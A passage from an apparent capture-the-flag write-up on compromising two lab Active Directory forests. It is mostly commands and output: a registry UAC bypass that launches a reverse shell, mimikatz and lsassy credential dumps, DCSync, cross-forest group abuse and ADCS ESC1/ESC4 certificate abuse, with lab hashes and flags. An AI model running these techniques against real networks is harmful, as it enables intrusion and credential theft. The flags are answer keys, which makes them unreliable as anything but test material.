C:\Windows\system32> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "C:\Windows\Tasks\revshell.exe" /f && start computerdefaults.exe
```

From here, we can follow the same steps as before to obtain a reverse shell as `svc_sql`, and finally escalate to `NT AUTHORITY\SYSTEM` using `GodPotato`.

```
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60583

PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Path 4: Adding `svc_sql` to `senior-developers`

This was a path that we were aware of during the competition, but was explicitly forbidden in the rules as it may be disruptive to other players. Anyway, this path is quite straightforward - simply using `jolene.ong` to add `svc_sql` to the `senior-developers` group, which can `SSH` into `sql01.antennae.rv`:

```
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'svc_sql'
[+] svc_sql added to senior-developers
```

We can then `SSH` into `sql01.antennae.rv` as `svc_sql`:

```
~$ sshpass -p 'P@ssw0rd_f0r_SQL-antennae' ssh 'svc_sql'@sql01.antennae.rv

PS C:\Users\svc_sql> whoami
antennae\svc_sql
```

Similar to before, we can do the `SeImpersonatePrivilege` exploit with `GodPotato` to escalate to `NT AUTHORITY\SYSTEM`.

# Flag 6: Antennae


Finally, with local `SYSTEM` access on `sql01.antennae.rv` - we can obtain credentials from logged on users by dumping the [`LSASS`](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before) process. This allows us to steal `NTLM` hashes of users that have previously logged into the machine.

## Dumping LSASS

We can do this with `sekurlsa::logonpasswords` from [mimikatz.exe](https://github.com/gentilkiwi/mimikatz), and find the `NTLM` hash of `kai.wen.goh`.

```
C:\windows\tasks>.\mimikatz.exe "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 153166753 (00000000:092123a1)
Session           : Batch from 0
User Name         : kai.wen.goh
Domain            : antennae
Logon Server      : DC01
Logon Time        : 9/8/2025 12:41:46 AM
SID               : S-1-5-21-1843653573-2831615454-1469364877-1122
        msv :
         [00000003] Primary
         * Username : kai.wen.goh
         * Domain   : antennae
         * NTLM     : 56e7e432c955bfdbb8f57d1248417116
         * SHA1     : f0d0a4ae3f6aeac2d677f1c6675c757453b18c37
         * DPAPI    : 81ce964944648399d64c9f933d25fc62
        tspkg :
        wdigest :
         * Username : kai.wen.goh
         * Domain   : antennae
         * Password : (null)
        kerberos :
         * Username : kai.wen.goh
         * Domain   : ANTENNAE.RV
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
```

On `BloodHound`, we find that the `kai.wen.goh` user is a member of the `Domain Admins` group - which is a member of the `Administrators` group on `dc01.antennae.rv`.


## DCSync Attack

The `Domain Admins` group has full administrative access to the entire domain, and this includes performing [Domain Replication](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/replication/
active-directory-replication-concepts) - this technique can be extended to replicate domain credentials, also known as a [DCSync](https://www.semperis.com/blog/dcsync-attack/) attack. We can perform this attack using `nxc` to obtain the `NTLM` hash of the `Administrator` user:

```
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'Administrator'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB         10.5.10.10      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.5.10.10      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:4b1b716bb4ad29c4efaf682577361070:::
```

We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\Administrator:4b1b716bb4ad29c4efaf682577361070 (Pwn3d!)
```

Lastly, we can use `evil-winrm` to authenticate to `dc01.antennae.rv` as `Administrator` and grab the `flag6.txt` file:

```
~$ evil-winrm -i dc01.antennae.rv -u 'Administrator' -H '4b1b716bb4ad29c4efaf682577361070'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag6.txt
RV{aNd_The_Pil1@r$_st@rt_dROpp!nG_170fee6a4def44375b5c5ecbc0b87efe}
```

# Flag 7: Privilege (De)escalation?


This challenge, sadly, only had one solve. This flag is the first challenge in the `backward.rv` forest, which has a [bidirectional trust](https://www.thehacker.recipes/ad/movement/trusts/) with the compromised `antennae.rv` forest. 

A [bidirectional trust](https://www.thehacker.recipes/ad/movement/trusts/) established between two Active Directory forests allows users in either forest to access resources in the other forest, provided they have the necessary permissions. This often means that a user from one forest can be granted access to resources in the other forest, and vice versa. In this case, a user in `antennae.rv` can potentially access resources in `backward.rv`, and vice versa.

## Cross-Forest Enumeration

In order to faciliate the use of `BloodHound` to ingest data from both forests, we need to re-run `bloodhound-ce-python` against the `backward.rv` forest:

```
~$ bloodhound-ce-python -u 'jolene.ong@antennae.rv' -p 'BoXALrqvqPd3' -d 'backward.rv' -c 'All' -ns '10.5.10.12' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: backward.rv
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc02.backward.rv
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc02.backward.rv
INFO: Found 20 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SRV01.backward.rv
INFO: Querying computer: DC02.backward.rv
INFO: Done in 00M 03S
INFO: Compressing output into 20250907125945_bloodhound.zip
```

After ingesting this data into `BloodHound`, we can now see the `backward.rv` forest in the `BloodHound` interface.


## Finding Foreign Group Memberships

We can enumerate for foreign group memberships using the `Queries` tab in `BloodHound`. This is a built-in query, labelled as: `Principals with foreign domain group membership`. We'll find that `natasha.lim@antennae.rv` is a member of the `Maintainers` group in `backward.rv`.


Additionally, we'll find that the `Maintainers` group has `GenericAll` permissions on the `Sysadmins` group in `backward.rv`.


## DCSyncing natasha.lim

As we did before with the `Administrator@antennae.rv` user, we can perform a `DCSync` attack to obtain the `NTLM` hash of the `natasha.lim` user:

```
~$ nxc smb dc01.antennae.rv -u 'kai.wen.goh' -H '56e7e432c955bfdbb8f57d1248417116' --ntds --user 'natasha.lim'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\kai.wen.goh:56e7e432c955bfdbb8f57d1248417116 (Pwn3d!)
SMB         10.5.10.10      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.5.10.10      445    DC01             natasha.lim:1123:aad3b435b51404eeaad3b435b51404ee:0a1bc6b13cd3106322a6d5bbb0293e44:::
```

## Foreign MAQ

As we did before to enumerate the `MachineAccountQuota` on `antennae.rv`, we can do the same for `backward.rv`. Due to the bidirectional trust, we can use the credentials of any user in `antennae.rv` to query `backward.rv`. In this case, we'll use the credentials of `natasha.lim`:

```
~$ nxc ldap dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M maq
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44 
MAQ         10.5.10.12      389    DC02             [*] Getting the MachineAccountQuota
MAQ         10.5.10.12      389    DC02             MachineAccountQuota: 10
```

We can create a new computer account in `backward.rv`, using `natasha.lim`'s credentials:

```
~$ nxc smb dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd' 
SMB         10.5.10.12      445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:backward.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.12      445    DC02             [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44 
ADD-COMP... 10.5.10.12      445    DC02             Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
```

## Abusing GenericAll on Group, again

Now that we have a computer account in `backward.rv`, we can use the `GenericAll` permissions that the `Maintainers` group has on the `Sysadmins` group to add our computer account to the `Sysadmins` group:

```
~$ bloodyAD --host 'dc02.backward.rv' -u 'natasha.lim' -p ':0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' add groupMember 'sysadmins' 'gatari$'                                          
[+] gatari$ added to sysadmins
```

We can verify that our computer account is indeed a member of the `Sysadmins` group:

```
~$ nxc ldap dc02.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M whoami                                                        
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\gatari$:P@ssw0rd 
WHOAMI      10.5.10.12      389    DC02             Name: gatari
WHOAMI      10.5.10.12      389    DC02             sAMAccountName: gatari$
WHOAMI      10.5.10.12      389    DC02             Enabled: Yes
WHOAMI      10.5.10.12      389    DC02             Password Never Expires: No
WHOAMI      10.5.10.12      389    DC02             Last logon: Never
WHOAMI      10.5.10.12      389    DC02             Password Last Set: Never
WHOAMI      10.5.10.12      389    DC02             Bad Password Count: 0
WHOAMI      10.5.10.12      389    DC02             Distinguished Name: CN=gatari,CN=Computers,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             Member of: CN=Sysadmins,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             User SID: S-1-5-21-2163652167-2436585246-2491459670-1605
```

## Local Administrator

Now that we are part of the `sysadmins` group, we can enumerate for local administrator access on machines in the `backward.rv` domain. We can do this with `nxc`:

```
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd'                                                                                                  
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
```

The presence of the `(Pwn3d!)` message indicates that `gatari$` has local administrator access on `srv01.backward.rv`. This is likely because the `Sysadmins` group is a member of the `Administrators` group on `srv01.backward.rv`. We can `SSH` into `srv01.backward.rv` as `gatari$`.

```
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@srv01.backward.rv
PS C:\Users\gatari$> whoami
backward\gatari$
```


And grab `flag7.txt`:

```
PS C:\Users\gatari$> cat C:\Users\Administrator\Desktop\flag7.txt
RV{f0r3I6n_GRoUP_mEMBeRSH1p_!$_pR3t7Y_4nNoyin9_549d3e2a7fd475283f4ce5f93f489a76}
```

# Flag 8: Backward


After compromising `srv01.backward.rv`, we can do the same credential dumping technique as shown in [Flag 6: Antennae](#flag-6-antennae) to dump the `LSASS` process.

## Dumping LSASS, again

Previously, we used [mimikatz.exe](https://github.com/gentilkiwi/mimikatz), but we can also use the [lsassy](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-lsass) module from `nxc` to do the same. We'll find the `NTLM` hash of `iqbal.hassan`.

```
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M lsassy
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
LSASSY      10.5.10.13      445    SRV01            Saved 16 Kerberos ticket(s) to /home/kali/.nxc/modules/lsassy
LSASSY      10.5.10.13      445    SRV01            backward\iqbal.hassan dfd368bc95bd217c04415fed81c8933e
```

We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e'                                
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
```

## Active Directory Certificate Services (ADCS)

In modern Active Directory environments, it's common to find [Active Directory Certificate Services (ADCS)](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) deployed. ADCS is often used internally for issuing certificates for various purposes, such as provisioning `TLS` certificates for web servers - and these certificates [are also used for `LDAPS` (LDAP over SSL/TLS) connections](https://techcommunity.microsoft.com/blog/sqlserver/step-by-step-guide-to-setup-ldaps-on-windows-server/385362).

We can enumerate for the presence of `ADCS` by looking for the `pKIEnrollmentService` object class in `LDAP`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e' --query "(objectClass=pKIEnrollmentService)" "cn dNSHostName" --base-dn 'CN=Configuration,DC=backward,DC=rv' 
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
LDAP        10.5.10.12      389    DC02             [+] Response for object: CN=BACKWARD-ENTERPRISE-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=backward,DC=rv
LDAP        10.5.10.12      389    DC02             cn                   BACKWARD-ENTERPRISE-CA
LDAP        10.5.10.12      389    DC02             dNSHostName          DC02.backward.rv
```

We'll find that `ADCS` is deployed in `backward.rv`, with the `Certificate Authority (CA)` role installed on `dc02.backward.rv`. Additionally, the `Common Name (CN)` of the `CA` is `BACKWARD-ENTERPRISE-CA`.

## Enumerating Certificate Templates

The "go-to" tool for `ADCS` enumeration is [certipy](https://github.com/ly4k/Certipy), we can use this to list all the certificate templates that are available for enrollment:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'Template Name' | awk -F': ' '{print $2}'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

BackwardDev
BackwardUser
KerberosAuthentication
DirectoryEmailReplication
DomainControllerAuthentication
SubCA
WebServer
DomainController
Machine
EFSRecovery
Administrator
EFS
User
```

Most of these templates are enabled by default, such as `User`, `Machine`, and `DomainController`. However, there are some non-default templates that are also enabled, such as `BackwardDev` and `BackwardUser`.

## Using Templates

Templates with the `Client Authentication` purpose can be used to authenticate to services, similar to how we did earlier with plaintext credentials. An example of such a template is the `User` built-in template:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled

[...snip...]

  12
    Template Name                       : User
    Display Name                        : User
    Certificate Authorities             : BACKWARD-ENTERPRISE-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-08-30T08:43:21+00:00
    Template Last Modified              : 2025-08-30T08:43:21+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Domain Users
                                          BACKWARD.RV\Enterprise Admins
      Object Control Permissions
        Owner                           : BACKWARD.RV\Enterprise Admins
        Full Control Principals         : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Owner Principals          : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Dacl Principals           : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Enterprise Admins
        Write Property Enroll           : BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Domain Users
                                          BACKWARD.RV\Enterprise Admins
    [+] User Enrollable Principals      : BACKWARD.RV\Domain Users

[...snip...]
```

By default, all domain users can enroll for this template. We can use `certipy` to request a certificate for the `iqbal.hassan` user:

```
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -template 'User'                     
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'iqbal.hassan@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'iqbal.hassan.pfx'
[*] Wrote certificate and private key to 'iqbal.hassan.pfx'
```

This `PFX` file contains both the certificate and the private key, which we can use to authenticate to services that support `PKI (Public Key Infrastructure)` authentication, such as `LDAP`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' --pfx-cert iqbal.hassan.pfx -M whoami
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
WHOAMI      10.5.10.12      389    DC02             Name: Iqbal Hassan
WHOAMI      10.5.10.12      389    DC02             sAMAccountName: iqbal.hassan
WHOAMI      10.5.10.12      389    DC02             Enabled: Yes
WHOAMI      10.5.10.12      389    DC02             Password Never Expires: No
WHOAMI      10.5.10.12      389    DC02             Last logon: 2025-09-08 15:18:05 UTC
WHOAMI      10.5.10.12      389    DC02             Password Last Set: 2025-08-28 19:17:07 UTC
WHOAMI      10.5.10.12      389    DC02             Bad Password Count: 0
WHOAMI      10.5.10.12      389    DC02             Distinguished Name: CN=Iqbal Hassan,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             Member of: CN=CA-Test,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             User SID: S-1-5-21-2163652167-2436585246-2491459670-1109
```

## Path 1: ESC1

The `BackwardUser` template is a custom template that was created in this environment. It has the `Client Authentication` purpose, and the `iqbal.hassan` user is allowed to enroll for it:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardUser' -A 20
Certipy v5.0.3 - by Oliver Lyak (ly4k)

    Template Name                       : BackwardUser
    Display Name                        : Backward User
    Certificate Authorities             : BACKWARD-ENTERPRISE-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-08-30T08:43:39+00:00
    Template Last Modified              : 2025-08-30T08:43:40+00:00
```

If we compare this to the `User` template, we'll notice that the `Enrollee Supplies Subject` property is set to `True`. This means that the user can specify the `Subject` of the certificate, which includes the `Common Name (CN)` and `User Principal Name (UPN)`.

This misconfiguration is critical, as it allows any user to enroll for a certificate but specifying the `Subject` as any other user in the domain. The "Supply in the request" option is often used in scenarios where the certificate requester needs to specify a particular identity, such as when a service account or application requires a certificate with a specific `Common Name (CN)` or `User Principal Name (UPN)` that differs from the requester's own identity.



It is worth mentioning that when attempting to check this box, a warning message is displayed. As a result, you really do need to intentionally select this option and ignore the security warning. Despite the warning, this is [still a common configuration setting](https://api.managed.entrust.com/csp/1.0.0/Enabling-supply-in-the-request.html) that is required by some applications. 

> And yet, `ESC1` is the most common misconfiguration encountered in `ADCS` environments.


### Enrolling for BackwardUser

We can use `certipy` to request a certificate for the `iqbal.hassan` user, but artificially setting the `userPrincipalName (UPN)` to `Administrator@backward.rv`:

```
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -upn 'Administrator@backward.rv' -template 'BackwardUser' 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We can then use this `PFX` file to authenticate to `LDAP` as `Administrator`:

```
~$ nxc ldap dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx         
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
```

As we did earlier in [DCSync Attack](#dcsync-attack), we can use `nxc` to perform a `DCSync` attack to obtain the `NTLM` hash of the `Administrator` user:

```
~$ nxc smb dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx --ntds --user 'Administrator'
SMB         10.5.10.12      445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:backward.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.12      445    DC02             [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
SMB         10.5.10.12      445    DC02             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.5.10.12      445    DC02             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0e0677333c1c1e80a537d580b158509:::
```

And lastly, we can use these credentials with `evil-winrm` to grab the final flag on `dc02.backward.rv`:

```
~$ evil-winrm -i dc02.backward.rv -u 'Administrator' -H 'd0e0677333c1c1e80a537d580b158509'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\flag8.txt
RV{adCs_1$_!NcreD!8Ly_DAN93ROu$_b9d9130b50d9cbcf8d9250c2c8e61385}
```

## Path 2: ESC4

The `BackwardDev` template is another custom template that was created in this environment. It has the `Client Authentication` purpose, and the `iqbal.hassan` user is allowed to enroll for it:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 60
Certipy v5.0.3 - by Oliver Lyak (ly4k)

    Template Name                       : BackwardDev
    Display Name                        : Backward Dev
    Certificate Authorities             : BACKWARD-ENTERPRISE-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PendAllRequests
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Code Signing
    Requires Manager Approval           : True
    Requires Key Archival               : False
    RA Application Policies             : Any Purpose
    Authorized Signatures Required      : 1
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2025-08-30T08:43:45+00:00
    Template Last Modified              : 2025-08-30T08:43:47+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : BACKWARD.RV\CA-Test
      Object Control Permissions
        Owner                           : BACKWARD.RV\Enterprise Admins
        Full Control Principals         : BACKWARD.RV\CA-Test
                                          BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Local System
                                          BACKWARD.RV\Enterprise Admins
        Write Owner Principals          : BACKWARD.RV\CA-Test
                                          BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Local System
                                          BACKWARD.RV\Enterprise Admins
        Write Dacl Principals           : BACKWARD.RV\CA-Test
                                          BACKWARD.RV\Domain Admins
                                          BACKWARD.RV\Local System
                                          BACKWARD.RV\Enterprise Admins
        Write Property Enroll           : BACKWARD.RV\CA-Test

```

We'll find that, unlike `BackwardUser`, this template does **not** have the `Enrollee Supplies Subject` property set to `True`. We also notice that the `BACKWARD.RV\CA-Test` group is a non-default group that has been granted enrollment rights, and _Full Control_ on the template. 

The `iqbal.hassan` user is a member of the `CA-Test` group, which grants him full control over the `BackwardDev` template.

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e' -M whoami                                                                                                   
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
WHOAMI      10.5.10.12      389    DC02             Name: Iqbal Hassan
WHOAMI      10.5.10.12      389    DC02             sAMAccountName: iqbal.hassan
WHOAMI      10.5.10.12      389    DC02             Enabled: Yes
WHOAMI      10.5.10.12      389    DC02             Password Never Expires: No
WHOAMI      10.5.10.12      389    DC02             Last logon: 2025-09-08 15:38:32 UTC
WHOAMI      10.5.10.12      389    DC02             Password Last Set: 2025-08-28 19:17:07 UTC
WHOAMI      10.5.10.12      389    DC02             Bad Password Count: 0
WHOAMI      10.5.10.12      389    DC02             Distinguished Name: CN=Iqbal Hassan,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             Member of: CN=CA-Test,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             User SID: S-1-5-21-2163652167-2436585246-2491459670-1109
```

### Abusing Full Control

With full control over the `BackwardDev` template, we can modify its properties. One of the properties we can change is the `Enrollee Supplies Subject` property, which we can set to `True`. This will make the `BackwardDev` template behave similarly to the `BackwardUser` template, thereby being vulnerable to `ESC1`.

We can use `certipy` to modify the template, and keep a copy of the original template in case we need to revert the changes later. The `-write-default-configuration` flag can be used to apply an `ESC1` configuration to the template:

```
~$ certipy template --help
[...snip...]
  -write-default-configuration
                        Apply the default Certipy ESC1 configuration to the certificate template. This configures the template to be vulnerable to ESC1 attack.
[...snip...]
```

Now, we can apply the `ESC1` configuration to the `BackwardDev` template:

```
